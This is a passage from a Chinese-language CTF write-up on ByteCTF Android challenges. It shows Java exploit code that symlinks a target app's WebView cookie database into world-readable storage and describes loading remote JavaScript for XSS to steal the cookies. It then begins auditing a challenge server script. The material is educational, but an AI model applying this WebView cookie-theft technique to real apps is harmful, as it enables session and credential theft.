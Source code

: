 ```plain
        //ed.setText(url_str);
    }
    private String symlink() {
        try {
            String root = getApplicationInfo().dataDir;
            String symlink = root + "/symlink.";
            String cookies = "/data/data/com.byhtmltectf.easydroid/app_webview/Cookies";
            Runtime.getRuntime().exec("rm " + symlink).waitFor();
            Runtime.getRuntime().exec("ln -s " + cookies + " " + symlink).waitFor();
            Runtime.getRuntime().exec("chmod -R 777 " + root).waitFor();
            return symlink;
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```

MainActive思路：第一步就是根据思路来进行创建软链接，然后根据Intent进行传参到Webview，加载我们远程服务器的index.html的js代码进行一个xss注入接受软链接symxml.html，因为symxml是链接到我们的cookie数据库里，接收到以后就能就能获取flag显示当前页面上了

**总结1：此题学到了Android 漏洞挖掘的一个关于WebView的一种利用方式**

2.BabyAndroid技巧刨析
-----------------

**Android pwn它的需要一些App开发知识和四大组件，在bytectf有关于Android pwn的几道题，这里简单记录下**

1.我们拿到题目压缩包，压缩包里有server的py文件，我们先审计一下这个py文件  
server.py：

```plain
#!/usr/bin/env python3
# Copyright 2021 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

import json
import os
import random
import shlex
import string
import subprocess
import sys
import time
import base64
import requests
import uuid
from hashlib import *
import zipfile
import signal
import traceback

random_hex = lambda x: ''.join([random.choice('0123456789abcdef') for _ in range(x)])
difficulty = 6
ADB_PORT = int(random.random() * 60000 + 5000)
```